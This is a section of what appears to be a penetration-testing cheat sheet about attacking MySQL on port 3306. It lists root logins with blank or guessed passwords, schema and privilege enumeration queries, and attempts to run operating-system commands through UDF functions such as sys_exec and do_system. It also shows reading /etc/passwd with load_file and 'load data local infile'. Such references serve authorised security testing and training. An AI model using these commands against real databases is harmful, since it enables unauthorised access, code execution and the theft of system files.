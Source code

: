 
## 2.17 MySQL - 3306

MySQL listens on `TCP 3306` by default. You'll see it during a port scan or when running `netstat -tnl`.

Logging in:

```sh
## Locally:
# as root without password (if allowed)
mysql -u root
# same, but prompt for password
mysql -u root -p
# provide password
mysql -u root -p'root'

## Remotely:
mysql -u root -h HOSTNAME
```

Once logged in, check out the schema and environment:

```sql
-- show list of databases
show databases;
-- Set current database to mysql
use mysql;
-- show tables in current database
show tables;
-- describe the table schema for 'user' table
describe user;
select table_name,column_name,table_schema from information_schema.columns where table_schema=database();

-- show MySQL version (both versions work)
select version();
select @@version;
-- show logged-in user
select user();
select system_user();
-- show active database
select database();
show databases;
-- show system architecture
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
-- show plugin directory (for UDF exploit)
select @@plugin_dir;
show variables like 'plugin%';

-- Try to execute code (try all ways)
\! id
select sys_exec('id');
select do_system('id');

-- Try to read files
select load_file('/etc/passwd');
-- more complex method
create table if not exists test (entry TEXT);
load data local infile "/etc/passwd" into table test fields terminated by '\n';
select * from test;
-- show file privileges of 'test' user
select user,file_priv from mysql.user where user='test';
-- show all privs of current user
select * from mysql.user where user = substring_index(user(), '@', 1) ;
```